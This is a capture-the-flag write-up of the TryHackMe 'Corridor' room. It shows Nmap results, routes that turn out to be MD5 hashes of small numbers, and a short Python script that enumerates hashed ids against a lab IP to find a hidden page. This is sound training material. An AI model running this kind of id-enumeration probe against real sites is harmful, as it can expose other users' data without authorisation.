


# Corridor (THM)

- https://tryhackme.com/room/corridor
- March 8, 2023
- easy

---

## Enumeration

### Nmap

```
PORT     STATE    SERVICE       REASON      VERSION
80/tcp   open     http          syn-ack     Werkzeug httpd 2.0.3 (Python 3.10.2)
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: Werkzeug/2.0.3 Python/3.10.2
|_http-title: Corridor
144/tcp  filtered news          no-response
1152/tcp filtered winpoplanmess no-response
1900/tcp filtered upnp          no-response
5988/tcp filtered wbem-http     no-response
9485/tcp filtered unknown       no-response
```

### HTTP


- by clicking the rooms, it redirects to something like this


- from view page source, extract all the routes

```
c4ca4238a0b923820dcc509a6f75849b
c81e728d9d4c2f636f067f89cc14862c
eccbc87e4b5ce2fe28308fd9f2a7baf3
a87ff679a2f3e71d9181a67b7542122c
e4da3b7fbbce2345d7772b0674a318d5
1679091c5a880faf6fb5e6087eb1b2dc
8f14e45fceea167a5a36dedd4bea2543
c9f0f895fb98ab9159f51fd0297e236d
45c48cce2e2d7fbdea1afc51c7c6ad26
d3d9446802a44259755d38e6d163e820
6512bd43d9caa6e02c990b0a82652dca
c20ad4d76fe97759aa27a0c99bff6710
c51ce410c124a10e0db5e4b97fc2af39
```

- it looks like md5 hashes
  

- They are just md5 hashes of numbers from 1,13

- try with 0



- here I wrote some python code.

```python
import hashlib
import requests

url = "http://10.10.50.100/"
s = requests.Session()

for i in range(0, 20):
    id_num = hashlib.md5(str(i).encode())
    id = id_num.hexdigest()
    r = s.get(url + id)
    print(f'[{i}] {r.url} -> {r.status_code} - {len(r.text)}')
```

- I found that number 0 has different lenght of responses, and from 1 to 13, they are same, after 13, it is 404 response.

---
